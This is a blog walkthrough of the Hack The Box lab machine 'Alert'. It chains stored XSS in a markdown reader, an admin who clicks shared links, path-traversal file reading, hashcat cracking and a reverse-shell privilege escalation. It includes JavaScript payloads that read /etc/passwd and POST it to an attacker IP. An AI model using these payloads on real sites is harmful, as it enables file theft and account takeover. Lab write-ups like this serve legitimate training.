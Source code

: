 ```yaml
---
title: "Alert Walkthrough(Hack The Box)"
date: 2025-03-22
draft: false
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```


## Reconnaissance & Enumeration
- Started with a Nmap scan, revealing open ports: 22, 80.
![Pasted image 20241218005036.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005036.png?raw=true)
- From the scan results I can also see `12227` port open which is also interesting.
- The scan results showed that Apache2 was hosting the website.
- The website featured a markdown reader page, The Basic functionality of this website is, get's markdown file from the user and then reads the contents of the particular file for displaying it's contents on the website.
- This website also included a share option for the rendered content. Again, it also has a simple `contact form`
- Now it should be obivious that this website uses HTML and JavaScript to render the contents like any other site on the internet
![obivious](https://media1.tenor.com/m/jc-G9cs4QVAAAAAC/station-19-maya-bishop.gif)
- I uploaded a `.md` file with JavaScript snippet init for testing, below were the contents of my md file  
![Pasted image 20241218005523.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005523.png?raw=true)
- As expected the contents were rendered and loaded like this
![Pasted image 20241218005550.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005550.png?raw=true)
- This is quite bad. It can execute arbitrary code as it renders the contents

## Exploitation
- Also another functionality in this website is pretty straight forward, where in `contact form` whatever link is filled and sent seems to be clicked by an admin. 
- We can easily get the admin's cookie by making a `.md` file with malicious payload and by sharing the `.md` file link using the share option to the admin through the contact form. The admin will eventually click the link and it will make the code to execute on his browser potentially sending the cookie to us(Attacker). 
- More dangerously we could also read arbitrary files using the `message.php` 
- So to exploit this LFI vulnerability I tried this payload and opened a nc on other side. 


```js
<script>
fetch("http://alert.htb/messages.php?file=/etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- To trigger this payload, View it and use the share option and get the link, share it to the dumb admin via contact form.
![dumb](https://media1.tenor.com/m/szyfm5XeQmAAAAAC/life.gif)
- After many tries I got this correct I modified the payload accordingly to read the target file 

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
![Pasted image 20241218010840.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218010840.png?raw=true)
- Found couple of users. The configs for apache2 websites generally resides at `/etc/apache2/sites-available/000-default.conf` I learnt this from enumerating my own machine.
![lies-within-you](https://media1.tenor.com/m/fG6zxAnLtWsAAAAC/vegito-db.gif)
![Pasted image 20241218011112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011112.png?raw=true)
- After I modified the original payload to read this configuration file and  I got the output.
![Pasted image 20241218011242.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011242.png?raw=true)
- Got the `.htpasswd` location. Usually this file contains the passwords or hashes for apache2.
- Within that file, password hash for user `albert` was there  
![Pasted image 20241218011625.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011625.png?raw=true)
- Let's crack the hash I used hashcat to crack this hash 
```bash
hashcat hash.txt  /usr/share/wordlists/rockyou.txt -m 1600 --username
```
- Here I specified module `1600` to crack apache type hash and with as `albert` username is presented with the hash we have to specify `--username` flag
![Pasted image 20241218012743.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218012743.png?raw=true)
- Now I can use ssh to login as user `albert`
- I got the {{< keyword >}} User flag {{< /keyword >}}

{{< alert icon="circle-info" >}} Sorry I accidently nuked the user flag image {{< /alert >}} 
## Privilege Escalation
- General SUID, SGID, Capabilities didn't had anything promising
- But anyway there was a internal web service running on port 80 `ss -tunlp` so I tunneled it to my machine via ssh on port 2000.
```
ssh -L 2000:localhost:8080 albert@alert.Hack The Box
```
![Pasted image 20241218014520.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218014520.png?raw=true)
- The web service name is litterely  `websitemonitor` which tracks and monitor the websites like `alert.htb`
- I found the website's directory location at `/opt/websitemonitor`
- The configuration files for this website are stored within `/config`
![Pasted image 20241218020002.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020002.png?raw=true)
- The the web root folder of this website has root privileges and Albert also have access to modify it.
- So to escalate my privileges I changed the file to a reverseshell.
![Pasted image 20241218020421.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020421.png?raw=true)
- Eventually secured {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20241218020525.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020525.png?raw=true)

![summary](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZzgzZzA3MzJyd3M3c3p1NjgzNW53cXZubnA2NW94ZWNncnF6NXQzYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/j5rIZnN3n3i19hxx8T/giphy.gif)
## Summary

The "Alert" box was approached with an initial **reconnaissance** phase where an nmap scan revealed three open ports: SSH (port 22) and a web server (port 80). The web server was identified as running Apache2 and hosting a Markdown reader page.

During the **enumeration** phase, it was discovered that the Markdown reader could execute code embedded within the Markdown content. Additionally, a contact form was found to be exploitable because the administrator would click on links sent through it without analyzing them, suggesting a potential **Local File Inclusion (LFI)** vulnerability. This LFI was exploited by crafting a payload and sending it to the admin via the contact form. This allowed for the discovery of user information and the location of the Apache2 configuration file, which contained the path to the `.htpasswd` file. The password hash for the user `albert` was found within this file.

The **exploitation** phase also involved cracking `albert`'s password hash using `hashcat`. The cracked password enabled successful SSH login, granting initial user access and the user flag.

For **privilege escalation**, an internal web service named "websitemonitor" was discovered running on port 8080. This port was tunneled to the attacker's machine via SSH. The configuration files for "websitemonitor," including the web root, were located in `/opt/websitemonitor/config`. As the user `albert` and root had permissions to modify files in the web directory,I replaced a file with a reverse shell, leading to root access and the acquisition of the root flag.

{{< typeit >}} This is a small and straightforward walkthrough for the box Alert, I hope you liked this if so kindly check my other posts too. Thank you, see you again {{< /typeit >}}

![bye](https://media.tenor.com/RlCHjOKEpaMAAAAi/rabbit-animal.gif)

